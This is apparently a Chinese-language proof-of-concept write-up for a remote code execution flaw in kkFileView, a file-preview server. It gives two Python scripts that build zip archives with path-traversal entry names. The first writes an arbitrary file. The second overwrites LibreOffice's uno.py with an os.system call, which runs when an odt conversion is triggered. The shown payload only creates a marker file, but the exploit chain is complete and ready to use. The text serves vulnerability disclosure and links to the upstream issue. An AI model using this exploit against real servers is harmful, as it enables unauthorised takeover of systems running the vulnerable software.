




## kkFileView-v4.3.0-RCE

## 影响版本
```
v4.3.0~v4.40
v4.2.1~v4.2.0
```


## 环境部署
本地源码启动或者docker部署




## 任意文件上传
```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
制作恶意hack.zip，注意里面必须有一个正常文件，例如test，便于创建hack.zip_缓存文件


上传文件并预览






发现成功穿越

## RCE
可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffice，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容
```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
制作恶意的zip包 上传并预览


再随便上传一个odt文件，另其发起libreoffice任务 上传并预览


可以看到命令成功被执行


uno.py中也确实被写入了内容



## 漏洞来源
- https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC
- https://github.com/kekingcn/kkFileView/issues/553
